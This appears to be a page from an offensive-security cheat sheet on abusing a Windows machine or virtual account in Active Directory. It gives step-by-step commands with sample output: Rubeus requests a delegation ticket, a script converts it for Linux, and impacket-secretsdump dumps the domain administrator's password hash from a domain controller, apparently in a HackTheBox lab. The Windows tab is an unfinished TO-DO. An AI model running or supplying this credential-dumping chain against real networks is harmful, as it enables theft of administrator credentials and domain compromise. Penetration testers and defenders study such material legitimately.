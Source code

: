 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["Kerberos", "Credential Dumping", "Pass-The-Ticket", "Rubeus", "Ticket Granting Ticket", "Domain Controller", "Machine Account", "Microsoft Virtual Account", "Active Directory", "Windows"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

```console {class="sample-code"}
PS C:\programdata> .\rubeus.exe tgtdeleg /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: W4jpmQuUqxCWpBh7QpPEkePICUi1mU/91EaqO2SfUgs=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBV ---[SNIP]--- lHSFQuSFRC
```

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py '<BASE64_TICKET>' secrets.kirbi secrets.ccache
```

```console {class="sample-code"}
$ python3 rubeustoccache.py 'doIFVDCCBV ---[SNIP]--- lHSFQuSFRC' secrets.kirbi secrets.ccache
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to secrets.kirbi
[*] Writing converted .ccache file to secrets.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=secrets.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=secrets.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC_IP> && impacket-secretsdump <TARGET> -k -no-pass -just-dc-user administrator
```

```console {class="sample-code"}
$ sudo ntpdate -s g0.flight.htb && impacket-secretsdump g0.flight.htb -k -no-pass -just-dc-user administrator

Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
---[SNIP]---
[*] Cleaning up..
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
